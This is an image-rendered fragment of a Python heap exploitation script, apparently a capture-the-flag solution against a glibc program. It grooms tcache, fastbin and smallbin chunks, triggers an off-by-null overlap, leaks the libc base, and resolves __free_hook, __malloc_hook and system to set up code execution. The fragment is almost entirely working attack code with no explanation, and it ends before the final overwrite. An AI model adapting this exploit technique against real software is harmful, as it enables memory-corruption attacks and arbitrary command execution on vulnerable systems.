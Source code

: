 ```python

	for i in range(7): # 8-14 -7
    
		add(0x27, '\n')

	# fastbin to smallbin
  
	add(0x3f0, '\n') # 18-7

	add(0x27,  p64(0) + p8(0x60)) #     0x555555560080

	add(0x27, 'clear') # 21-7
 
	for i in range(7): # 8-14 -7
    
		delete(8 + i - 7)

	delete(19-7)
	delete(17-7)

	for i in range(7): # 8-14 -7
    
		add(0x27, '\n')
 

	# change fake chunk's bk->fd
  
	add(0x27, p8(0x60))
	add(0x27, "clear")

	add(0x17, "a") # 23-7 overwrite
  
	add(0x5f7, "a") # 24-7 trigger off-by-null
  
	add(0x100, p64(0x21)) # 25-7
  
 

	delete(23-7)
	add(0x17,'\x00'*0x17)

	delete(23-7)
	add(0x17, b"\x00"*0xf+b'\x05')

	delete(24-7)#overlap

	delete(23-7)
	add(0x17, '\x0f')

	delete(24-7)
	add(0x4d0,'')

	show(16)
	ru('content: ')
	libcbase = leak_address() - 0x1ebbe0
	print(hex(libcbase))

	free_hook = libcbase+libc.sym['__free_hook']
	malloc_hook = libcbase+libc.sym['__malloc_hook']
	system = libcbase+libc.sym['system']

	delete(24-7)
	add(0xb17, b'a'*0x4d0+p64(0)+p64(0x81)+b'b'*0x20)
```